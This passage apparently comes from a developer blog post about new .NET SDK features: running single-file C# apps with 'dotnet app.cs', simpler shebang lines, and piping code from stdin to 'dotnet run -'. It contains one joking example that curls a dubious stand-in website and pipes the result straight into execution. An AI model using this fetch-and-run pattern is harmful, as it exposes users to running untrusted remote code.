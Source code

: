 Another feature [that's already merged](https://github.com/dotnet/sdk/pull/48387) is support for running single-file apps _without_ using the `run` command, i.e. you can use

```bash
dotnet app.cs
```

instead of having to use

```bash
dotnet run app.cs
```

One of the main advantages to this is that it makes the support for shebangs on linux more robust. For example, if you want to use `/usr/bin/env` in order to "find" the `dotnet` executable, instead of assuming it's in `/usr/bin/dotnet` then previously you would need something like this:

```csharp
#!/usr/bin/env dotnet run
// ^ Might not work in all shells. "dotnet run" might be passed as a single argument to "env".
```

Unfortunately, this multi-argument requirement might not work in some shells. With the new `dotnet app.cs` support however, you can use the simpler, and more widely supported:

```csharp
#!/usr/bin/env dotnet
// ^ Should work in all shells.
```

### Running C# directly from stdin code

Support for piping C# code directly to `dotnet run` was [merged recently](https://github.com/dotnet/sdk/pull/49348) and means you can do things like this:

```bash
> 'Console.WriteLine("Hello, World!");' | dotnet run -
Hello, World!
```

This pipes a hello world app directly from the console to `dotnet run` and executes it. The classic case of "you should never do this but people do all the time" of curl-ing a website and running it directly is now possible 😅

```bash
> curl -S http://totally-safe-not-scary-at-all.com/ | dotnet run -
All your bases are belong to us!
```

### Future ideas

You can see all the other issues that have been opened (or closed) for the feature by looking for [the `Area-run-file` label on GitHub](https://github.com/dotnet/sdk/issues?q=state%3Aopen%20label%3A%22Area-run-file%22). You can also read more about the feature in general, including much of what's in this post, as well as [other planned work here](https://github.com/dotnet/sdk/blob/main/documentation/general/dotnet-run-file.md#alternatives-and-future-work).

## What is _not_ coming?
